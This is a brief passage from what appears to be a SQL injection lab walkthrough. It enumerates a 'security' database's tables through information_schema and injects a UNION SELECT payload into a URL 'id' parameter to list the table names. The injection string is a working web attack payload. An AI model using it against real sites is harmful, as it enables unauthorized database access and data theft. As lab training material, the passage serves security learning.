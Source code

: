 Now we have to enumerate the table first

`desc tables;`

![28.jpg](./img/28.jpg)

Now we use this query:

`select table_name from information_schema.tables where table_schema = “security”;`

![30.jpg](./img/30.jpg)

On using the query, it dumps the table names. We now inject the same query into the URL; the query is

`?id=1”) union select 1,table_name,3 from information_schema.tables where table_schema=’security’ --+`

and we can see the first table name email in the screen.

![32.jpg](./img/32.jpg)

